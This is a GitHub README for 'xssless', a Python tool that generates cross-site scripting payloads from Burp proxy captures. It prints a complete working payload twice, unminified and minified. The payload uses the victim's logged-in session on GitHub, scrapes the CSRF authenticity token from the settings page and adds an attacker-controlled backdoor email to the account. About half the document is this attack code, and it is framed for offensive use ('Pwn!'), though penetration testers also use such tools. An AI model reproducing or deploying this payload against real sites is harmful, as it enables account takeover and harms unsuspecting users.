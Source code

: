 xssless
======

An automated XSS payload generator written in python.

Usage
-----

1. Record request(s) with [Burp proxy](http://portswigger.net/burp/proxy.html)
2. Select request(s) you want to generate, then right click and select "Save items"
3. Use xssless to generate your payload: `./xssless.py burp_export_file`
4. Pwn!

Installation
------------

If you don't have BeautifulSoup installed:

`pip install beautifulsoup4`

Download the latest xssless:

`git clone https://github.com/mandatoryprogrammer/xssless`

Run the script:

`./xssless.py -h`

Example Payload
---------------

This is an example XSS payload output (unminimized) for my github that would add an extra email to my account (backdoor@yopmail.com)

```html
<script type="text/javascript">
    var funcNum = 0;
    function doRequest(url, method, body)
    {
        var http = window.XMLHttpRequest ? new XMLHttpRequest() : new ActiveXObject("Microsoft.XMLHTTP");
        http.withCredentials = true;
        http.onreadystatechange = function() {
            if (this.readyState == 4) {
                var response = http.responseText; 
                var d = document.implementation.createHTMLDocument("");
                d.documentElement.innerHTML = response;
                requestDoc = d;
                funcNum++;
                try {
                    window['r' + funcNum](requestDoc);
                } catch (error) {}
            }    
        };
        if(method == "POST")
        {
            http.open('POST', url, true);
            http.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
            http.setRequestHeader('Content-length', body.length);
            http.setRequestHeader('Connection', 'close');
            http.send(body);
        } else if (method == "GET") {
            http.open('GET', url, true); 
            http.send();
        } else if (method == "HEAD") {
            http.open('HEAD', url, true); 
            http.send();
        }
    }
    r0();
    function r0(requestDoc){
        doRequest('https://github.com/settings/profile', 'GET', '');
    }

    function r1(requestDoc){
        doRequest('https://github.com/users/mandatoryprogrammer/emails', 'POST', 'authenticity_token=' + encodeURIComponent(requestDoc.getElementsByName('authenticity_token')[0].value) + '&user_email%5Bemail%5D=backdoor%40yopmail.com');
    }

</script>
```

The compressed payload
```html
<script type="text/javascript">
function doRequest(e,t,n){var r=window.XMLHttpRequest?new XMLHttpRequest:new ActiveXObject("Microsoft.XMLHTTP");r.withCredentials=true;r.onreadystatechange=function(){if(this.readyState==4){var e=r.responseText;var t=document.implementation.createHTMLDocument("");t.documentElement.innerHTML=e;requestDoc=t;funcNum++;try{window["r"+funcNum](requestDoc)}catch(n){}}};if(t=="POST"){r.open("POST",e,true);r.setRequestHeader("Content-type","application/x-www-form-urlencoded");r.setRequestHeader("Content-length",n.length);r.setRequestHeader("Connection","close");r.send(n)}else if(t=="GET"){r.open("GET",e,true);r.send()}else if(t=="HEAD"){r.open("HEAD",e,true);r.send()}}function r0(e){doRequest("https://github.com/settings/profile","GET","")}function r1(e){doRequest("https://github.com/users/mandatoryprogrammer/emails","POST","authenticity_token="+encodeURIComponent(e.getElementsByName("authenticity_token")[0].value)+"&user_email%5Bemail%5D=backdoor%40yopmail.com")}var funcNum=0;r0()
</script>
```

Contributing
------------

Want to contribute some code to this project? Great! I'm not the best at Python or Javascript so I appreciate any additions to the project. Contributions can also be in the form of new feature ideas, if you've got one let me know!

The Joke
--------

Just to point out, the joke in the name here is really to xss-LESS, ie. stop putting so much time into building payloads! Not to be without XSS which would be a sad state indeed (well, for the pentester anyways!).

